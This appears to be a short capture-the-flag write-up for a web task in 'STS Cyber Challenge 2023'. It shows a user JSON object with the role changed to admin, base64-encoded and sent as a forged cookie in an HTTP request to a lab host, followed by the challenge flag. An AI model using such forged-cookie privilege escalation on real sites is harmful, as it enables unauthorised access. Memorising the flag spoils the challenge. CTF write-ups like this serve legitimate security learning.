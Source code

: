 # STS Cyber Challenge 2023 Write-up

## Web 

### Task - Myktybek  

{"username":"Myktybek","email":"myktybek@moshnyi.bala","role":"admin"}

eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ==

Request:

    GET / HTTP/1.1
    Host: 172.17.0.1:8082
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,ima ge/avif,image/webp,image/apng, */*;q=0.8,application/signe d-exchange; v=b3;q=0.7
    Accept-Encoding: gzip, deflate 
    Accept-Language: en-US, en; q-0.9
    Cookie: user_data-
    eyJ1c2VybmFtZSI6Ik15a3R5YmVrIiwiZW1haWwiOiJteWt0eWJla0Btb3NobnlpLmJhbGEiLCJyb2xlIjoiYWRtaW4ifQ%3d%3d
    Connection: close

![image](https://github.com/user-attachments/assets/ee83fa8c-3ae7-4f00-b4f2-2fa144e546cb)

FLAG 

    STS{th1s_fl4g_1s_e4sy}

    
